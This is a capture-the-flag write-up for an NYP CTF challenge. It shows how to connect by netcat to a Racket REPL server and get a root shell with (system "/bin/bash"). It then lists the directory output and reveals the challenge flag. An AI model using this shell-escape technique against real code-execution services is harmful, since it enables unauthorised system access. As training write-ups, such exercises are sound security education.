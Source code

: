 # Tennis Racket

**Challenge Type: REPL Shell**  
**Challenge Status: Solved**

## Challenge
I just started my Computer Science Course at NUS last week and my CS prof is teaching us how to use Racket! He set up a server on his personal computer for us to upload and test our code, I wonder if I can find the answers to next week's test on here heh

`nc tennis1.nypinfsecctf.tk 8010`

## Solution

1. Connect to the server via netcat

`nc tennis1.nypinfsecctf.tk 8010`

2. Start a root shell using Racket-lang's built-in functions

```rkt
(system "/bin/bash")
```

3. Look for the flag file

```bash
root@7bf0ff368443:/# ls -la

total 64
drwxr-xr-x   1 root root 4096 May  6 16:27 .
drwxr-xr-x   1 root root 4096 May  6 16:27 ..
-rwxr-xr-x   1 root root    0 May  6 16:06 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27 03:49 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  340 May  7 12:16 dev
drwxr-xr-x   1 root root 4096 May  6 16:06 etc
-rw-r--r--   1 root root   31 May  4 02:34 flag
drwxr-xr-x   2 root root 4096 Apr 15  2020 home
lrwxrwxrwx   1 root root    7 Apr 27 03:49 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27 03:49 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27 03:49 media
drwxr-xr-x   2 root root 4096 Apr 27 03:49 mnt
drwxr-xr-x   2 root root 4096 Apr 27 03:49 opt
dr-xr-xr-x 300 root root    0 May  7 12:16 proc
drwx------   2 root root 4096 Apr 27 03:52 root
drwxr-xr-x   5 root root 4096 Apr 27 03:52 run
lrwxrwxrwx   1 root root    8 Apr 27 03:49 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27 03:49 srv
dr-xr-xr-x  13 root root    0 May  7 12:16 sys
-rw-r--r--   1 root root    4 May  6 16:27 test
drwxrwxrwt   1 root root 4096 May  4 12:03 tmp
drwxr-xr-x   1 root root 4096 Apr 27 03:49 usr
drwxr-xr-x   1 root root 4096 Apr 27 03:52 var
```

4. Print out flag file contents

```bash
root@7bf0ff368443:/# cat flag

NYP{lisp_or_scheme_idk_anymore}
```

## Ending Note
This challenge was originally solved entirely using Racket-lang's built-in functions. But ever since I found a way to spawn a root shell, the process has became significantly easier.

# Other Reads

Check out the author's write-up of this challenge. He explains it in more detail together with his thought process.  
https://github.com/Portatolova/NYP-CTF-Challenges/tree/main/2022%20May%20CTF/Programming%20-%20Tennis%20Racket